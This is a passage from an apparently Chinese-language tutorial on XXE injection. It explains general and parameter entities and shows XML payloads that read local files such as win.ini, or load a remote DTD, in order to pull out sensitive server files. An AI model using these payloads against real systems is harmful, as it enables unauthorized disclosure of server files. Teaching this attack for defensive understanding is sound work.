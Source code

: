 我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体）

1. 通用实体

   用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

   **示例代码：**

   ```xml-dtd
   <?xml version="1.0" encoding="utf-8"?> 
   <!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
   <updateProfile>  
       <firstname>Joe</firstname>  
       <lastname>&file;</lastname>  
       ... 
   </updateProfile>
   ```

2. 参数实体

   1. 使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
   2. 只有在 DTD 文件中，参数实体的声明才能引用其他实体
   3. 和通用实体一样，参数实体也可以外部引用

   **示例代码：**

   ```xml-dtd
   <!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
   <!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
   %an-element; %remote-dtd;
   ```

   **参数实体在我们 Blind XXE 中起到了至关重要的作用**

### 能做什么

上面疯狂暗示了 **外部实体** ，那他究竟能干什么？

实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？

### 实例一：读本地敏感文件（有回显）

这个实例的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

本地服务器上放上解析 XML 的 php 代码：
